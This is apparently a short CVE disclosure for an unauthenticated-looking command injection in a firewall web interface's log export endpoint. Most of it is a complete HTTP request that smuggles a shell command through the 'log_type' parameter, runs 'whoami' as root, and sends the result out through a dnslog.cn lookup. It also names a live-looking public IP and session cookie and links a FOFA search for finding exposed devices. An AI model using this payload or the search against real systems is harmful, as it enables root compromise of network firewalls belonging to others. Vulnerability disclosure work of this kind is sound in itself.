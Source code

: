 # CVE
In `webui/modules/log/fw_security.mds` after accepting the log_type parameter, without any filtering, it is directly spliced into the $table variable, and passed into exec, resulting in code execution.
![image](https://github.com/night-0p/CVE/assets/54882616/3fd651bf-98e3-4e86-a844-0f42f3099088)
test steps:  
1， First obtain a dnslog domain name through http://dnslog.cn/  
2，send exp:  
```
GET /webui/?g=log_fw_export&log_type=%26/bin/?ing${IFS}`whoami`.9ud6dz.dnslog.cn HTTP/1.1
Host: 183.230.154.102:4443
Cookie: USGSESSID=8944257a6431dd049e456e23cf40833b
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://183.230.154.102:4443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://183.230.154.102:4443/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
The following is the result of executing `whoami`. root authority.  
<img width="1247" alt="image" src="https://github.com/night-0p/CVE/assets/54882616/4fc5085b-9000-4283-a242-b557c69b2bba">  
this Website fingerprinting:  
https://fofa.info/result?qbase64=YXBwPSLlronmgZLkv6Hmga8t5piO5b6h5a6J5YWo572R5YWzIg%3D%3D
